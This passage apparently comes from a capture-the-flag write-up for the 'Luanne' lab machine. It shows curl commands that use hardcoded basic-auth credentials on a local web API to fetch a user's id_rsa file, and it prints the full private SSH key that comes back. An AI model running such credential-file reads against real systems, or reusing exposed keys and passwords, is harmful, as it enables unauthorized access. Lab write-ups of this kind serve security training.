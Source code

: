 ----

`curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/`

![]({{ site.url }}/assets/Luanne_218.assets/20201206174637187_1576.png)

`id_rsa`

`curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa`

![]({{ site.url }}/assets/Luanne_218.assets/20201206174935951_8037.png)

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
